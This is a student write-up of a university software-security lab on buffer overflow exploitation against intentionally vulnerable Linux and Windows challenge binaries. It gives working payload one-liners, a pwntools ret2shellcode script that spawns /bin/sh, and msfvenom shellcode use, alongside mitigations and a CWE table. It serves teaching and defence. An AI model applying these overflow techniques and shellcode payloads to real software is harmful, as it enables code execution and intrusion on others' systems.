






# Lab 1: buffer overflow exploitation (Linux and Windows)

Hands-on binary exploitation on deliberately vulnerable challenge programs, done in a university software-security lab (ÉTS, Montréal, winter 2026). The challenges run on a Kali Linux VM (numbered levels) and a Windows 7 VM (two Win32 apps). They walk up from overwriting a local variable, to hijacking a return address, to injecting and running shellcode.

Lab done in a team of 4. Write-up and reformulation by Ilyas El Houdaigui. No teammate names or student IDs are included. The challenge flags (`LOG460{...}`) are kept as proof of success; they belong to this lab instance and are worthless anywhere else.

French version: [README.fr.md](README.fr.md).

Each level follows the same shape: the vulnerable C, the stack or heap layout from GDB, the payload, and the result.

Contents:

- Linux: [Level 01](#level-01-overwriting-local-variables), [Level 02](#level-02-overwriting-uid-to-0), [Level 03](#level-03-overwriting-the-command-passed-to-system), [Level 04](#level-04-overwriting-a-function-pointer-in-bss), [Level 05](#level-05-ret2win-x64), [Level 06](#level-06-ret2win-with-arguments-x86), [Level 07](#level-07-ret2shellcode-with-aslr-brute-force), [Level 16](#level-16-heap-overflow)
- Windows: [Ret2Win](#windows-ret2win), [Ret2Shell](#windows-ret2shell)
- [Tools](#tools), [Mitigations](#mitigations), [Vulnerability summary (CWE)](#vulnerability-summary-cwe)

The method throughout: read the C to find the unsafe call, use GDB (GEF) to find where the buffer sits relative to the target (a variable, the saved return address, or a function pointer), compute the distance, and build a little-endian payload that fills the gap and writes the value I want.

---

## Linux

### Level 01: overwriting local variables

The program reads input with `read(STDIN_FILENO, buff, BUFF_SIZE + 16)` into a stack buffer. The 16 extra bytes are enough to reach two local variables that are later checked with XOR to decide whether to print the flag. This is a stack-based buffer overflow (CWE-121).

From GDB, `lea eax, [ebp-0x298]` before the `read` call puts the buffer at `ebp-0x298`. The two checked variables are at `ebp-0x10` and `ebp-0xc`, so the distance from the buffer to the first target is `0x298 - 0x10 = 648` bytes. The compare instructions show the expected values: `ebp-0x10` must be `0x359932d1` and `ebp-0xc` must be `0x2159ad55`.



Payload: 648 bytes of padding, then the two values in little-endian.

```
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*648 + b"\xd1\x32\x99\x35" + b"\x55\xad\x59\x21")' | ./level01
```

### Level 02: overwriting uid to 0

`fgets(name, BUFF_SIZE + 16, stdin)` allows 16 bytes past the `name` buffer, enough to overwrite a local `uid`. Menu option 3 prints the flag only when `uid == 0`.

The buffer is at `ebp-0x14c` and `uid` at `ebp-0xc`, so the distance is `0x14c - 0xc = 320` bytes. Fill 320 bytes, write four null bytes over `uid`, end the line so `fgets` returns, then send `3` to the menu.

```
(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*320 + b"\x00\x00\x00\x00" + b"\n")'; echo "3") | ./level02
```

### Level 03: overwriting the command passed to system

`fgets(choice, BUFF_SIZE * 2, stdin)` overflows `choice` into `cmd`, and the program later runs `system(cmd)` when `choice` starts with `yes`. So the input has to both pass the `yes` check and rewrite `cmd`.

From the disassembly, `cmd` sits at `ebp-0x5d8` (initialized to `/usr/bin/date`) and `choice` at `ebp-0xba8`, so the distance is `0xba8 - 0x5d8 = 1488` bytes. The input starts with `yes` (3 bytes), fills the remaining 1485 bytes, then overwrites `cmd` with the command to run.

```
python3 -c 'print("yes" + "A"*1485 + "cat flag.txt\x00")' | ./level03
```

`system` then runs `cat flag.txt` and the flag comes back: `LOG460{WyJhZ2l0YXRlZC1zYW5kZXZpb24iLCJsZXZlbDAzIiwieDg2Il0.5Hm6Y9AtctAdSdwqc6HotwLW63c}`.



### Level 04: overwriting a function pointer in .bss

`gets(global_buff)` is unbounded, and there is a global function pointer `void (*function)(void)` in `.bss` that gets called later. Overwriting it redirects execution. This shows that overflows are not only a stack problem.

`gets` writes at `ebx+0x8c` and the pointer is read from `ebx+0x78c`, so the distance is `0x78c - 0x8c = 0x700 = 1792` bytes. The target is `get_flag`, found with `p get_flag` at `0x804882a`.

```
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1792 + b"\x2a\x88\x04\x08\n")' | ./level04
```

### Level 05: ret2win (x64)

`gets(buff)` overflows the stack all the way to the saved return address. The goal is to redirect execution to a `win()` function that reads the flag.

`sub rsp, 0x90` reserves 144 bytes and the buffer is at `rbp-0x90`. After the buffer and the 8-byte saved RBP, the return address sits at offset 152. `win` is at `0x400b28` (`p win`).

```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*152 + b'\x28\x0b\x40\x00\x00\x00\x00\x00')" | ./level05
```



### Level 06: ret2win with arguments (x86)

Here `win(a, b)` only prints the flag when `a == 0xdeadbeef` and `b == 0xbadf00d`. On 32-bit cdecl, arguments are read off the stack, so the payload rebuilds a fake call frame after the return address.

The buffer is at `ebp-0x438` (1080 bytes), plus 4 for the saved EBP gives 1084 to reach EIP. `win` is at `0x08048838`. After the return address comes a fake return address (junk, where `win` would return) and then the two arguments.

```
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1084 + b"\x38\x88\x04\x08" + b"JUNK" + b"\xef\xbe\xad\xde" + b"\x0d\xf0\xad\x0b")' | ./level06
```

### Level 07: ret2shellcode with ASLR brute force

`gets(buff)` again, but there is no hidden `win` function, so the exploit injects its own shellcode. The program helpfully leaks the buffer address with `printf("buff @ %p\n", buff)`, which matters because ASLR is on and the address changes every run.

The buffer is at `ebp-0x568` (1384 bytes), plus 4 for the saved EBP gives a 1388-byte offset to the return address. Because the leaked address still varies, the exploit runs in a loop with pwntools: read the leak, build a NOP sled plus `/bin/sh` shellcode, pad to 1388, and set the return address to the leak plus an offset so it lands inside the sled.

```python
from pwn import *
context.arch = 'i386'
while True:
    p = process('./level07')
    p.recvuntil(b'buff @ ')
    addr = int(p.recvline().strip(), 16)
    nops = b"\x90" * 512
    shell = asm(shellcraft.sh())
    padding = b"A" * (1388 - len(nops) - len(shell))
    payload = nops + shell + padding + p32(addr + 256)
    p.sendline(payload)
    p.sendline(b"cat /challenges/level07/x86/flag.txt")
    res = p.recvall(timeout=0.5).decode(errors='ignore')
    if "LOG460" in res:
        print(res); break
    p.close()
```

It landed on the first attempt and returned the flag.



### Level 16: heap overflow

This one is a heap-based overflow (CWE-122). The program does `malloc` for a `username` buffer (16 bytes) and a `User` struct (`id`, `username` pointer), then calls `gets(user->username)` with no bound. The check `if (!user->id)` grants admin, so the goal is to overflow out of the 16-byte `username` chunk and write zero over the adjacent `user->id`.

After finding the distance between the two chunks with breakpoints at `main+4` and `gets@plt`, 32 bytes of padding reach `user->id`, which is then zeroed.

```
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*32 + b"\x00\x00\x00\x00\n")' ; cat | ./level16
```

The program answers `Welcome back admin`, and `cat flag.txt` returns the flag.



---

## Windows

The Windows side is a Win32 build on Windows 7, driven with x32dbg / Immunity Debugger.

### Windows Ret2Win

`ret2win.c` reads with `gets(buff)` into a 32-byte buffer, and a `win()` function runs `calc.exe`. The overflow overwrites the saved return address (EIP). Subtracting the buffer address from the saved-EIP location gives a 44-byte offset (buffer plus saved EBP plus alignment). `win` is at `0x004015C0`.

```
python -c "print('A'*44 + '\xC0\x15\x40\x00')" | ret2win.exe
```

The return lands in `win`, and `calc.exe` launches.



### Windows Ret2Shell

`ret2shell` reads with `scanf("%s", buff)` into a 512-byte buffer, with no length control, so more than 512 bytes smashes the stack. Crashing it on purpose and reading the registers gives the offset to the saved return address (116 bytes here) and the buffer location.

For a ret2win redirect the offset is 44 and `win` is at `0x00401050`. For the shellcode path, the shellcode comes from msfvenom:

```
msfvenom -p windows/exec CMD=calc.exe -a x86 -f hex
```

The final payload is 116 bytes of padding, a return address that points back into the buffer, a short NOP sled, then the shellcode:

```
'41' * 116 + 'af115062' + '90' * 20 + <msfvenom shellcode>
```

---

## Tools

- GDB with GEF for the Linux static and dynamic analysis (stack layout, `p <symbol>` for addresses).
- pwntools for the scripted ret2shellcode with the address leak and brute force.
- msfvenom for the Windows shellcode.
- x32dbg and Immunity Debugger for the Windows binaries.

## Mitigations

Every one of these bugs comes from an unsafe write with no bounds check, and most of them from a dangerous input function. The defensive side is concrete:

- Never use `gets`; it cannot be used safely (CWE-242). Use `fgets` with the real buffer size, and make sure `read`/`fgets` sizes match the allocation rather than exceeding it (levels 01, 02, 03 pass a size larger than the buffer).
- Treat `scanf("%s", ...)` the same way; bound it with a field width.
- Validate indexes and lengths before writing, on the heap as well as the stack.
- Turn on the compiler and loader protections that these challenges deliberately left off: stack canaries (SSP), DEP/NX, ASLR, PIE, FORTIFY_SOURCE, and full RELRO. The protection tables in the screenshots show which were disabled to make each exploit possible, which is a good reminder of what each one buys.

## Vulnerability summary (CWE)

| Challenge | Bug | CWE |
|-----------|-----|-----|
| Levels 01, 02, 03, 05, 06, 07 | Stack-based buffer overflow | CWE-121 |
| Level 04 | Overflow overwriting a function pointer | CWE-787 / CWE-121 |
| Level 16 | Heap-based buffer overflow | CWE-122 |
| Windows Ret2Win, Ret2Shell | Stack-based buffer overflow | CWE-121 |
| Use of gets / unbounded scanf | Use of a dangerous function | CWE-242 |
| All | Out-of-bounds write | CWE-787 |

## Note on scope and ethics

These were authorized exploits against intentionally vulnerable binaries on local lab VMs. Nothing here was run against a system I do not own. The flags shown are lab-instance markers with no value outside the exercise.
